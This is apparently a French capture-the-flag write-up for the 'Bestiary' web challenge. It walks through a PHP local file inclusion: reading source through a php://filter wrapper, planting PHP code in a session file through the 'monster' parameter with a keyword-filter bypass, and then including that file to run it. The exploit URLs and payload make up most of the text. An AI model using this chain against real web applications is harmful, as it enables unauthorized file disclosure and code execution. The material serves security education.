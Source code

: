# Web - Bestiary

Faille LFI détectable avec l'ajout d'un `'` dans l'argument `monster`.

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```
On recupere le contenu du fichier index.php grace au wrapper `php://`

On voit que le fichier de session est modifiable et accessible en lecture.

`PHPSESSIONID=97f1eeda9ea2d3a323571f9a9ee199aa;`
donc notre fichier session est `sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`.

On utilise le payload suivant pour lire le flag (sans contenir 'flag').

```php
<?php $suite='g.php'; include ('php://filter/convert.base64-encode/resource=fla'.$suite); ?>
```

On met à jour le fichier session
`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php $suite='g.php'; include ('php://filter/convert.base64-encode/resource=fla'.$suite); ?>sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`

On l'execute
`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`
